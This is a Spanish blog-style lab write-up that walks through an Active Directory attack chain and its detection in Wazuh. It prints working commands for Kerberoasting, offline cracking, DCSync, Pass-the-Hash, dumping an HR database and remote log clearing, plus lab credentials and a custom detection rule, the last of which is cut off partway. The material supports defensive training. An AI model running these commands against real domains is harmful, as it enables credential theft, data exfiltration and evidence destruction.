01 Introducción
¡Buenas! En esta entrada vamos a recorrer un ciclo completo de SOC de principio a fin: desde que un atacante pone un pie en el dominio hasta que el incidente queda cerrado y documentado. El enfoque es totalmente práctico — un ataque real ejecutado contra un Active Directory y, sobre todo, cómo se detecta, correlaciona y responde desde el lado defensor.
La parte que de verdad importa aquí no es el ataque, es lo que viene después: cómo un analista convierte un puñado de alertas sueltas en una historia coherente y toma decisiones. Para que no sea "monté un SIEM y ya", todo el proceso va guiado por un marco profesional, NIST SP 800-61 Rev. 3, y cada técnica del atacante queda mapeada con MITRE ATT&CK.
Si te interesa con qué frecuencia sufren las empresas este tipo de incidentes (filtración de credenciales y robo de bases de datos), el informe anual Verizon DBIR y el ENISA Threat Landscape dan datos bastante reveladores.
Primero ejecutamos y explicamos el ataque entero desde Kali. Después nos ponemos del lado del SOC y vemos qué llega a Wazuh en cada paso. Es la misma dinámica de un SOC real: el analista no sabe de antemano qué va a pasar, tiene que leer las alertas, correlacionarlas y decidir.
02 Marcos normativos
El marco principal es NIST SP 800-61 Rev. 3 — "Incident Response Recommendations and Considerations for Cybersecurity Risk Management: A CSF 2.0 Community Profile", publicado el 3 de abril de 2025. Es la referencia internacional para gestión de incidentes y, a diferencia de la Rev. 2 (retirada esa misma fecha), ya no usa el clásico ciclo de cuatro fases: se reorganiza sobre las seis Funciones del CSF 2.0. En este lab etiqueto cada fase de mi trabajo con la Función que cubre.
| Marco | Para qué lo uso |
|---|---|
| NIST SP 800-61 Rev. 3 / CSF 2.0 | La espina dorsal. Estructura todo el lado defensa en las Funciones Detect, Respond y Recover (y Govern/Identify/Protect en la preparación) |
| MITRE ATT&CK | Lenguaje común para mapear las técnicas del atacante (TTPs) con su identificador |
| RGPD — arts. 33 y 34 | Como el ataque acaba en robo de datos personales (DNI, IBAN, salario), justifica la notificación a la AEPD |
Cada fase del lado SOC abre con una línea corta del tipo "esto en la Rev. 3 cae en la Función X". El marco etiqueta todo el recorrido, pero solo se explica a fondo una vez, en el cierre con la notificación a la AEPD.
03 Objetivos
El objetivo "oficial" de este laboratorio es… darme trabajo, claro. Ahora en serio: documentar de principio a fin un ciclo SOC profesional sobre un caso realista bajo NIST SP 800-61 Rev. 3, justificando en cada paso qué medida, comando o razonamiento empleo y por qué.
El recorrido cubre las dos caras del incidente:
- Reconocimiento y acceso inicial con credenciales filtradas
- Kerberoasting de una cuenta de servicio y crackeo offline
- DCSync (volcado del NTDS) y robo de un hash de administrador
- Movimiento lateral con Pass-the-Hash y acceso a la base de datos de RRHH
- Exfiltración de los datos y borrado de huellas
Y, lo más importante, el lado SOC: detectar cada paso en Wazuh, correlacionar las alertas en un único incidente, contener, erradicar la causa raíz, recuperar el servicio y cerrar el caso con métricas, IOCs y la notificación legal. El foco no es solo detectar — es interpretar para actuar.
04 Escenario y configuración
Lab montado en VirtualBox sobre una red interna aislada 192.168.60.0/24. Cinco máquinas: el dominio, el servidor de base de datos, una estación de trabajo, el SIEM y la Kali atacante.
AOM-AD1 — Win Server 2022
192.168.60.10
Dominio AOM-SOC.lab + DNS
Sysmon · agente Wazuh
AOM-AD2 — Win Server 2022
192.168.60.20
SQL Server Express (svc_sql)
BBDD RRHH · SQL Audit
Estacion-W10 — Windows 10
192.168.60.30
Usuario Fran
Unida al dominio
Wazuh
192.168.60.40
Manager + Indexer + Dashboard
Módulo MITRE ATT&CK
Kali (aom-kali-soc)
192.168.60.100
Impacket · NetExec · hashcat
evil-winrm · BloodHound
Telemetría SOC desplegada
Antes de que ocurra nada, hay que asegurar la telemetría — esto en la Rev. 3 son las Funciones Govern, Identify y Protect (el "antes del incidente"). Sin logs no hay detección. En cada servidor activé por GPO siete subcategorías de auditoría, cada una alimenta una detección concreta:
| Auditoría (GPO) | Genera | Detecta en este lab |
|---|---|---|
| Account Logon | 4768 / 4769 | Kerberoasting |
| Logon/Logoff | 4624 / 4625 | Pass-the-Hash, acceso anómalo |
| Account Management | 4720 / 4728 / 4732 | Altas y cambios de cuentas/grupos |
| DS Access (Object Access) | 4662 | DCSync (replicación) |
| Privilege Use | 4672 / 4673 | Privilegios de administrador |
| Policy Change | 4719 / 1102 | Borrado del log de seguridad |
| Detailed Tracking | 4688 (con línea de comandos) | Procesos sospechosos |
Además: Sysmon con configuración base, SQL Server Audit en AOM-AD2 (login y acceso a objetos del esquema) y el agente Wazuh enrolado en las tres máquinas Windows contra 192.168.60.40.
Montaje paso a paso
El laboratorio se monta en tres bloques: el dominio con su telemetría (AOM-AD1), el servidor SQL con la base de datos (AOM-AD2) y el enrolado de agentes en el SIEM.
AOM-AD1 — Dominio, cuentas y telemetría

Antes de tocar nada, dejo en AD1 todo lo necesario para la telemetría: el ejecutable de Sysmon con su fichero de configuración y el instalador del agente de Wazuh. Tenerlo preparado de antemano evita cortes a mitad del montaje.

Promociono el servidor a controlador de dominio creando el bosque AOM-SOC.lab. Durante el proceso instalo también el servicio DNS, imprescindible para que el dominio resuelva nombres internamente. Antes le asigné una IP estática fija (192.168.60.10), porque un DC no puede cambiar de dirección.

Creo las unidades organizativas que ordenan el dominio (Empleados, Servidores, CuentasServicio…) y verifico que se han creado correctamente. Separar las cuentas por OU me permitirá aplicar después las políticas de auditoría de forma ordenada.

Doy de alta a fran, nuestro empleado. Le pongo una contraseña débil a propósito: será el punto de entrada del atacante, simulando unas credenciales filtradas que nadie se molestó en rotar.

Creo a paco, el administrador de sistemas. Es la cuenta privilegiada que el atacante querrá robar para hacerse con el control del dominio.

Creo svc_sql, la cuenta de servicio con la que el SQL de AD2 operará contra el dominio. Es una cuenta de servicio normal… salvo por un par de detalles que la convertirán en el eslabón débil de toda la cadena.

Verifico que las tres cuentas existen y registro el SPN de svc_sql con setspn. Ese SPN, necesario para que el servicio SQL funcione, es justo lo que más tarde habilita el Kerberoasting: cualquier usuario del dominio podrá pedir su ticket.

Empiezo la telemetría creando una GPO de auditoría y enlazándola al dominio para que se aplique a todos los equipos. Aquí defino qué eventos de seguridad quiero que Windows registre.

Activo la subcategoría Object Access / DS Access. Es la clave del lab: sin ella, el DCSync ocurriría sin dejar rastro; con ella, la replicación del directorio genera el evento 4662 que luego detectaremos.

Configuro Privilege Use (genera el 4672, uso de privilegios de administrador). En el resto de GPOs activo las demás subcategorías: Account Logon, Account Management, Process Creation, Logon/Logoff, Policy Change y Detailed Tracking — siete en total, cada una vigilando una técnica distinta.

Tras aplicar las políticas con gpupdate, compruebo con auditpol /get que las siete subcategorías están activas en Success y Failure. Si esto no estuviera bien, el resto del laboratorio no detectaría absolutamente nada.

Instalo Sysmon con una configuración base. Complementa los logs nativos de Windows con telemetría más rica de procesos, conexiones y cambios, que Wazuh recoge igual que el resto.

Confirmo que Sysmon está registrando eventos activamente. Con esto AD1 ya genera toda la telemetría que necesitamos; solo falta enviarla a Wazuh, que dejo para el final.
AOM-AD2 — Servidor SQL y base de datos

Uno el segundo servidor, AOM-AD2, al dominio AOM-SOC.lab. A diferencia de AD1, este no es controlador de dominio: es un servidor miembro que alojará el SQL.

Instalo SQL Server Express, más que suficiente para el lab. Es donde vivirá la base de datos de RRHH que el atacante quiere robar.

En la configuración del servicio indico que el motor SQL corra bajo la cuenta de dominio svc_sql en lugar de una cuenta local. Esto es lo que liga el SQL al dominio… y lo que da sentido al Kerberoasting de svc_sql que veremos en el ataque.

Confirmo que el servicio MSSQL está corriendo efectivamente bajo svc_sql. Ya tenemos la cuenta de servicio ligada al motor de base de datos.

Genero datos ficticios pero realistas con Mockaroo: nombre, DNI, IBAN, salario y departamento de unos 1000 empleados. Son datos personales y económicos — justo el tipo de información que dispara el RGPD si se filtra.

Importo esos datos a la base de datos RRHH dentro del SQL. Ya tenemos el objetivo del ataque cargado y listo.

Verifico con una consulta que los registros están correctamente cargados. La caja fuerte está llena; ahora toca vigilarla.

Configuro SQL Server Audit para que registre los inicios de sesión y los accesos a objetos de la base de datos. Esta es la telemetría que luego delata la exfiltración: sin ella, el robo de datos pasaría desapercibido a nivel de SQL.
SIEM — Enrolado de agentes Wazuh

Desde el panel de Wazuh genero el comando de despliegue del agente, configurándolo contra la IP del manager (192.168.60.40). El propio panel me da el comando ya preparado según el sistema operativo de cada máquina.

Una vez instalado el agente en las tres máquinas (AD1, AD2 y la estación W10), vuelvo al panel de agentes de Wazuh para verificar cada uno. Los tres aparecen como Active y reportando: la telemetría ya llega al SIEM y el laboratorio está listo para el ataque.
● Dominio AOM-SOC.lab operativo · ● SQL con la BBDD de RRHH cargada · ● Telemetría enviando a Wazuh · ● Kali lista en la misma red
05 Cadena de ataque
El escenario: el atacante ha comprado en la dark web una base de datos de credenciales filtradas. Entre ellas están las de Fran, un trabajador que nunca cambió su contraseña. Con ese único punto de apoyo, su objetivo es llegar a la BBDD de RRHH (DNI, IBAN, salarios), robarla y borrar su rastro.
Todas las técnicas van etiquetadas con su identificador MITRE ATT&CK. El objetivo de ejecutar el ataque es entender qué busca el SOC en cada fase.
Preparación y reconocimiento T1046
El atacante verifica su arsenal y localiza al controlador de dominio: solo un DC tiene abierto el puerto 88 (Kerberos).
which sliver-server impacket-secretsdump nxc bloodhound-python evil-winrm hashcat
nmap -p 88 --open 192.168.60.0/24
El which devuelve la ruta de cada herramienta: están todas instaladas y operativas. Arsenal confirmado, podemos empezar.

El escaneo devuelve un único host con el puerto 88 abierto: 192.168.60.10 es el controlador de dominio. Ya sabemos cuál es el corazón del dominio.
Acceso inicial — credenciales válidas T1078.002
¿Siguen siendo válidas las credenciales de Fran? Lo comprobamos contra el DC por SMB.
nxc smb 192.168.60.10 -u fran -p 'AOMpassword123!' -d AOM-SOC.lab
El [+] en verde confirma que las credenciales de fran siguen siendo válidas. El atacante ya tiene un pie dentro del dominio como usuario autenticado.
Kerberoasting T1558.003
Cualquier usuario autenticado puede pedir el ticket (TGS) de una cuenta con SPN, y ese ticket va cifrado con el hash de su contraseña. Pedimos el de svc_sql y nos lo llevamos para crackearlo offline.
impacket-GetUserSPNs AOM-SOC.lab/fran:'AOMpassword123!' -dc-ip 192.168.60.10 -request
echo '$krb5tgs$18$svc_sql$AOM-SOC.LAB$...' > svc_sql.hash
GetUserSPNs devuelve la cuenta svc_sql con su SPN y, debajo, el hash $krb5tgs$18$ del ticket. Ese 18 indica cifrado AES256 (dato que retomamos en el lado defensa). Ya tenemos lo que íbamos a crackear.

Volcamos ese hash a svc_sql.hash. Un paso intermedio sencillo, pero deja el terreno listo para hashcat.
Crackeo offline T1110.002
Esta fase ocurre entera en la Kali, sin tocar la red: el atacante es invisible para el SIEM porque no genera ni un log. Usamos el diccionario rockyou.
hashcat -m 19700 svc_sql.hash /usr/share/wordlists/rockyou.txt --force
hashcat arranca en modo 19700 (Kerberos TGS-REP AES256) y empieza a probar el diccionario rockyou contra el hash. Todo offline, sin tocar la red.

Estado Cracked: hashcat devuelve la contraseña en claro de svc_sql → Summer2023!. Una contraseña de servicio débil y sin rotar, el clásico que se cuela en todos los entornos reales.
DCSync — volcado del NTDS T1003.006
Resulta que svc_sql tiene permisos de replicación que no debería tener. Eso permite pedirle al DC que nos replique todos los secretos del dominio como si fuéramos otro controlador: un DCSync.
impacket-secretsdump 'AOM-SOC/svc_sql:Summer2023!@192.168.60.10' -just-dc-ntlm
El DCSync vuelca el NTDS completo: Administrator, krbtgt, fran, svc_sql y, lo que buscábamos, el hash NT de paco. A partir de aquí ya no necesitamos su contraseña, nos basta el hash.
Pass-the-Hash y movimiento lateral T1550.002 · T1021
Con el hash de paco no necesitamos su contraseña: lo usamos tal cual. Validamos contra el DC y saltamos al servidor SQL.
nxc smb 192.168.60.10 -u paco -H b812e8f01b55c2300689b83aaa906637
impacket-mssqlclient AOM-SOC/paco@192.168.60.20 -windows-auth -hashes :b812e8f01b55c2300689b83aaa906637
El (Pwn3d!) confirma que el hash de paco es válido y que la cuenta es administradora en el DC. Pass-the-Hash exitoso, sin haber crackeado nada.

Entramos en el motor SQL de AD2 autenticados como paco, pasando solo el hash. Estamos dentro como administrador de dominio… aunque ahora viene el obstáculo inesperado.
Acceso a la base de datos T1213
Y aquí el giro: paco es Domain Admin, pero al intentar abrir la BBDD de RRHH, el SQL le corta. Ser admin del dominio no da acceso automático a una base de datos — los permisos de SQL son una capa aparte.

La solución del atacante: volver a la cuenta que sí maneja ese SQL, svc_sql, cuya contraseña ya tenemos. Con ella explora la base de datos.
impacket-mssqlclient AOM-SOC/svc_sql:'Summer2023!'@192.168.60.20 -windows-auth
SQL> USE RRHH;
SQL> SELECT name FROM sys.tables;
Con svc_sql el USE RRHH sí funciona. Listamos las tablas y vemos que Empleados y MOCK_DATA guardan los campos sensibles (dni, iban, salario). La caja fuerte está abierta.
Exfiltración T1041 · T1005
Montamos la consulta en un fichero y volcamos toda la tabla a un CSV en la Kali.
echo "USE RRHH;" > query.sql
echo "SELECT * FROM MOCK_DATA;" >> query.sql
impacket-mssqlclient AOM-SOC/svc_sql:'Summer2023!'@192.168.60.20 -windows-auth -file query.sql > rrhh_exfiltrado.csv
wc -l rrhh_exfiltrado.csv # → 1015
Volcamos toda la tabla a rrhh_exfiltrado.csv. El wc -l confirma 1015 líneas: los ~1000 empleados ya están fuera del perímetro, en la máquina del atacante.

Un head al CSV confirma el botín: nombres, DNIs, IBANs y salarios. Datos personales en claro — la exfiltración es un hecho consumado.
Borrado de huellas T1070.001
Por último, el atacante reutiliza el hash de paco para ejecutar un comando remoto que vacía el log de seguridad de Windows.
nxc smb 192.168.60.20 -u paco -H b812e8f01b55c2300689b83aaa906637 -x "wevtutil cl Security"
El comando se ejecuta vía wmiexec y vacía el log de seguridad de AD2. El atacante cree que con esto ha borrado su rastro… pero se equivoca, como veremos justo a continuación.
Borrar el log local no borra lo que ya salió hacia el SIEM. Cada evento del ataque ya estaba en Wazuh, fuera de su alcance — y el propio borrado genera su evento (un 1102). Esa es la ventana del SOC. Empieza nuestro trabajo.
06 SOC · Detección y triaje
El cambio de chip
En el ataque tú decidías qué hacer. En el SOC reaccionas a lo que el SIEM te enseña: no a "ataques", sino a alertas sueltas.
Función CSF: DETECT
DE.CM (monitorización continua) y DE.AE (análisis de eventos). Por cada alerta: ¿real o ruido? ¿qué alcance? ¿escalo?
Un analista de nivel 1 no apaga servidores ni desconecta máquinas por su cuenta. Documenta, clasifica y escala. La acción autónoma solo existe si un runbook la autoriza. Recorremos las alertas en el orden en que el atacante las generó.
Alerta 1 — Kerberoasting T1558.003

Triaje: ¿quién pide el ticket? Un usuario raso (fran). ¿svc_sql tiene SPN? Sí, por eso es kerberosteable. ¿Es normal pedir 4 TGS de una cuenta de servicio seguidos desde una IP desconocida? No. Matiz: el manual dice "RC4 (0x17)", pero aquí el ticket es AES256, así que la regla clásica no habría saltado — lo cacé buscando los 4769 contra la cuenta de servicio directamente. Veredicto: sospechoso alto, primer hilo.
Alerta 2 — DCSync T1003.006
Esta es la alerta más interesante del lab, porque Wazuh no detecta el DCSync por defecto: el evento 4662 llega al manager, pero al no disparar ninguna regla, no entra en el panel de alertas. Tuve que crearme una regla personalizada — y ahí está la diferencia entre usar un SIEM y saber extenderlo.

La regla que escribí en local_rules.xml del manager:
<group name="windows,dcsync,">
<rule id="100200" level="12">
<if_group>windows</if_group>
<field name="win.system.eventID">^4662$</field>
<field name="win.eventdata.properties" type="pcre2">1131f6ad|1131f6aa</field>
